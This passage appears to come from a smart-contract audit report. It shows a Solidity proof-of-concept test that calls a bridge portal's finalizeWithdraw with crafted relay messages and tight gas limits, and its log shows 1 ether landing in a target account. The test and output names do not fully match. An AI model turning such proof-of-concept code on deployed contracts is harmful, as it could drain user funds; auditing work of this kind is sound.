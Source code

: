 ```solidity

    }



    function testOutOfGas() public {

        address bob = address(1231231243);

        console.log("bob's balance before");
        console.log(bob.balance);

        uint256 minGasLimit = 30000 wei;

        address sender = address(this);

        address target = bob;

        bytes memory message = abi.encodeWithSelector(
            '0x',
            messager,
            4,
            sender,
            target,
            1 ether,
            minGasLimit
        );

        bytes memory messageRelayer = abi.encodeWithSelector(
            RelayMessagerReentrancy.relayMessage.selector,
            4,
            sender,
            target,
            1 ether,
            minGasLimit,
            message   
        );

        portal.finalizeWithdraw{value: 1 ether, gas: 110000 wei}(minGasLimit, 1 ether, messageRelayer);

        console.log("bob's balance after the function call");
        console.log(bob.balance);

    }

}
```
when running the test the outcome is as follows
```solidity
Running 2 tests for test/RelayMessagerReentrancy.t..sol:CounterTest
[PASS] testHasEnoughGas() (gas: 130651)
Logs:
  bob's balance before
  0
  gas left after externall call
  100196
  gas needed after external call
  25038
  success after finalize withdraw????
  true
  bob's balance after the function call
  1000000000000000000
```